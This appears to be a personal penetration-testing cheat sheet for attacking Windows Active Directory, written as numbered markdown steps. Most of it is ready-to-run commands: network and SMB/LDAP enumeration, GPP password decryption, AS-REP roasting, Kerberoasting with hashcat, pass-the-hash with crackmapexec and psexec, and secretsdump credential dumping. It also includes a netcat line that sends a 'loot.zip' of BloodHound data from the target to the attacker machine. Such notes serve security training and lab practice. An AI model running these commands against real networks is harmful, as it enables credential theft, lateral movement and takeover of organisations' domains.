 ## Getting Initial Foodhold
1. Determine the IP address or hostname of the Active Directory server. If we seen( port 53 445, 389, 88, we are most likely dealing with Domain Controller)
2. Enumerate DNS
3. Check open ports: Enumerate SMB: If port 445 is open, use tools like enum4linux, smbmap, smbclient crackmapexec to gather information about the SMB service, such as shared folders and users.
4. Enumerate LDAP: If port 389 or 3268/3269 is open, use tools like ldapsearch, to gather information about the LDAP directory service, such as users, groups, and organizational units.
5. Enumerate Kerberos: If port 88 is open, use tools like krb5-enum-users or enum-users-gpp-decrypt to enumerate users and potentially crack Kerberos passwords.
6. Enumerate RPC: If port 135 is open, use tools like rpcclient or nmap-rpc-info to gather information about the RPC service and potentially identify vulnerable endpoints.
7. Check for group policy: (Groups.xml for Windows 12 and below) Look for group policy information in the directory, use tools like gpp-decrypt to decrypt and extract any saved credentials.
   - open the Groups.xml file. decrpyt the password hash by `gpp-decrypt $HASH`
9. Check for computer accounts: Look for computer accounts in the directory, which can be used to identify and target specific systems on the network.
10. Look for organizational units (OUs): Check for OUs in the directory, which can be used to identify the structure and organization of the network.
11. https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg  Look at this roadmap
12. https://dw3113r.com/2022/07/20/active-directory-attack-cheat-sheet/ 

## Enumeration
1. `nmap -sC -sV -p -oA result 10.0.0.0./8`
2. Edit host file `subl /etc/hosts to add domain`

## Port 53 DNS
1. `nslookup` 
2. `server $IP` then type -> `$IP` to figure out the host name. 
3. `dnsrecon -d $IP -r $IP
4. 
## Port 445 SMB (Check SMB.md file)
1. `nmap --script safe -p 445, $IP`
2. `enum4linux $IP`
3. `smbmap -H $IP` (anonymous login) 
4. `smbmap -R $Filename $IP` (list the content of the directroy)
5. `smbmap -R Filename $IP -A $FiletoDownload -q` (Download the intersting file such as Groups.xml)  `update db` and `locate $Filename`. 
6. `crackmapexec smb $IP -u '' -p'' ` or `crackmapexec smb $IP -u 'guest' -p''` to try to access.
## Port 389, 636, 3268, 3269 LDAP 
1. `nmap -n -sV --script "ldap* and not brute*" -p- 389 $Ip` 
2.  `ldapsearch -x 
```
ldapsearch -x -h <IP> -s base namingcontexts
[Parse through the returned naming contexts, then enumerate each one]:
ldapsearch -x -h <IP> -b ‘DC=EGOTISTICAL-BANK,DC=LOCAL’
[You can further query specific sections of each naming context]:
ldapsearch -h <IP> -x -b “DC=cascade,DC=local” ‘(objectClass=person)’

```
## AS-REP Roasting (Authentication Reply Roasting)
1. If pre-authentication is disabled, and we provide a list of userlists to the domain controller (AS-REQ), the DC will grant us TGT. If the passwords are weak, we can crack the TGT and gain access. We can use krebrute, impacket, or crackmap
2. If we dont find some misconfiguration or user name try using this username list `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt` 
3. or `https://github.com/jeanphorn/wordlist/blob/master/usernames.txt` for the below command
4. `kerbrute userenum --dc $IP -d DOMAIN.NAME user.txt` user.txt is a userlist that we have created to authenticate to DC.
5. `impacket-GetNPUsers -userfile user.txt -dc-ip $IP DOMAIN.NAME/`
6. Crack the hash
   
   
# After initial shell, credentials or some password (Enumeration)
0. ***Logistic***: Say we gain some creds from the above method and have a shell on the computer. Now what can we do?
1. Check if, I can logon to other PC with same credentials(Pass the Pass crackmapexec) Dump the SAM file to figure out other accounts to move to other account,( Pass the Hash, secret.py)
2. Enumerate the PC that we are loged on to. Continue this process for lateral movement!(psexec)
3. Things we want to know, domain admins, domain controller, domain policy
4. Enumerate the initial target using powerview. Trasfer Powerview , and gather info to send back to bloodhound
```
Transfer SharHound (exe or ps1) and nc.exe to target
Run SharpHound.exe or .ps1
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain <DOMAIN.LOCAL> -ZipFileNmame loot.zip
Transfer loot back to kali:
- On $LHOST: nc -nlvp 4321 > loot.zip
- On target: nc.exe -nv <kali IP> 4321 < loot.zip
- Drag loot.zip into BloodHound GUI
```
4. https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993 (Some powerView Command cheatsheeet or refer below)
5. `powershell -ep bypass ` `. .\PowerView.ps1` 
6. `Get-NetDomain` , (domain info)
7.  For manual inspection `net user` (for local accounts) `net user /domain` (for all domain users) `net user <USERNAME> /domain` 
8. `Get-NetUser` `Get-NetUser | select cn` 
9. `Get-UserProperty -Properties pwdlastset` (are the passwords new?)   `Get-UserProperty -Properties logoncount` (logins with lot of login?)  
10. `Get-NetGroup`  `Get-NetGroup -GroupName "Domain Admins`. To view the Members `Get-NetGroupMembers -GroupName "Domain Admins`
11. `Get-NetDomainController` (for DC info, DC IP)
12. `Get-DomainPolicy` `(Get-DomainPolicy)."system access"` (policy such as minimum password length)
13. `Get-NetComputer` (show all the computers in the Domain) 
14. `Invoke-ShareFinder` (what files are being shared)
15. `Get-NetGPO` (show group policy)
16.  `Get-NetLoggedon -ComputerName <current Computer name>  `(Find,Currently Logged on Users: their credentials will be saved in memory so find out logged in highvalue target or lateral movement)
17.   `Get-NetSession -ComputerName dc01` (to verfify that domain controller is logged into what other pc)
18.   
## Pass the Password Attack 
1. Lets say we have some credentials. Lets try to pass the password/hash to other connected networks. Would be great if we could get to DC straight away but usually, we wont. 
2. `crackmapexec smb 192.168.119.0/24 -u SOMEUSERNAME -d DOMAIN.LOCAL -p SOMEPASSWORD` 
3. `psexec DOMAIN/username:SOMEPASSWORD@TARGETIP ` to login if sucessful
## Pass the Hash or crack(gained from local SAM)
1. `impacket-secretsdump <username>:<password>@<domain name or IP> -dc-ip <DC IP>`
2. or `secretsdump.py marvel/ID:SOMEPASSWORD@TARGETIP` 
3. `crackmapexec smb 192.168.57.0/24 -u "Frank Admin" -H <Second part of the HASH without ::> --local-auth` (we are trying to login to other computers)
4. If we pawned a PC, we can try to psexec into the PC. `psexec.py "Frank Admin":TARGETIP -hashes avbcd:abcd`. If dont get a shell, we werent able to gain admin access. 

## Token Impersonation
0. If we navigate to a machine and token of a domain administrator(user), we have domain admin. 


## Kerbreroasting (Service Account Attack (want to attack members of high value group )
1. Once we have some username + password, we ask the Domian Controller for TGS (since we can request TGT) and try to crack TGS hash.
```
impacket-GetUserSPNs <IP or hostname>/<username>:<password> -request [add -request if SPN is found]
[save hash and crack with hashcat]
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

## Dump the hash 
1. We have a user account and pssexed into an account. We want to dump hashes.
2. `secretsdump.py Domain/USERNAME:SOMEPASSWORD@TargetIP`
3. `crackmapexec smb $IP.0/24 -u "UserNmae" -H <Hash> --local-auth
## Token Impersonation
